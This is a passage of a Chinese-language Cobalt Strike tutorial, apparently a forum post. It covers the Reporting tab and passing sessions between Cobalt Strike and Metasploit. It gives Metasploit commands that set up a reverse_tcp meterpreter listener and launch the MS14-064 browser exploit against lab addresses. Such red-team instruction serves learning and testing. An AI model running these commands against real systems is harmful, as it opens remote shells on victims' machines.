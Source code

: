### Spare Phish 邮件钓鱼

请大家参考：  
<https://cloud.tencent.com/developer/article/1041508>

6、Reporting选项卡
--------------

Reporting模块可以配合cobaltstrike的操作记录、结果等，直接生成相关报告  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4a71161a1157e431ee913b05f536a1ef1652f12b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4a71161a1157e431ee913b05f536a1ef1652f12b.png)

7、会话管理
------

### cobalt strike派生metasploit会话

msf设置监听载荷

```php
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.134
set lport 8800
exploit -j
```

新建外部监听器主机ip地址为产生msf会话的主机  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2044769ce8c481afa886ca5f0c3623abe2b4409b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2044769ce8c481afa886ca5f0c3623abe2b4409b.png)  
选择监听器，因为metasploit用的tcp 所以这时协议也使用用tcp  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7e568d7b89bd62c4627972de05996c75e1e9b054.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7e568d7b89bd62c4627972de05996c75e1e9b054.png)  
执行过后就会msf里面产生会话  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7ceb5dbb98b5f2938d4d10fb52f4d37f9cf65089.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7ceb5dbb98b5f2938d4d10fb52f4d37f9cf65089.png)

### metasploit session 派生会话给cobalt strike

首先在攻击主机上产生msf会话,由于这里主机不够，所以teamserver既是服务器，也是攻击主机  
产生msf会话

```php
use exploit/windows/browser/ms14_064_ole_code_execution
set srvhost 192.168.0.128
set SRVPORT 80
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.128
set lport 12345
exploit 
```
